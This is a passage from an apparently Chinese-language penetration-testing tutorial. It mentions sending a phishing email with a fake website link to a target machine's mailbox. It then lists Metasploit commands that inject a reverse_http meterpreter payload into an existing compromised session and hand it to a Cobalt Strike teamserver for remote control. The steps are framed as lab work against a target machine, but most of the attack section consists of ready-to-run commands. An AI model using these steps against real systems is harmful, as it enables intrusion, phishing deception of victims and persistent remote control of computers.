 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/26140423/1673967284331-322dc494-e574-49af-b7c1-62ea738bba93.png#averageHue=%23c6e5e6&clientId=u28251994-4acc-4&from=paste&id=ua629347e&originHeight=654&originWidth=873&originalType=url&ratio=1&rotation=0&showTitle=false&size=98520&status=done&style=none&taskId=u913b0752-258e-4a5c-8812-a4a761df39c&title=)
所有参数配置完成后 点击 Send 发送邮件即可
> **注意: 如果虚假的网站连接没跟上, 可以在 Manage 里面复制虚假网站地址, 再次向 靶机邮箱发送邮件, 补上**


# 使用CS进行监控
> **前提:**
> **已经使用msf 渗透进入到了靶机, 正在使用meterpreter**

```
# 后台查看当前的session
background
```

1. 加载MSF的payload 注入功能
```
use exploit/windows/local/payload_inject
```

2. 设置payload
```
set payload windows/meterpreter/reverse_http
```

3. 查看配置参数
```
show options
```
```
set lhost 对应CS的teamserver的ip
```
```
set lport cs的监听端口(只要没被占用就行)
```

4. 设置监控会话
```
set session 数字(当前对应的session)
```

5. 设置当前msf不接受监听数据
```
set disablepayloadhander true
```

6. 执行设置
```
run
```
OK啦

> 如果还是没有传到CS, 不妨再次run






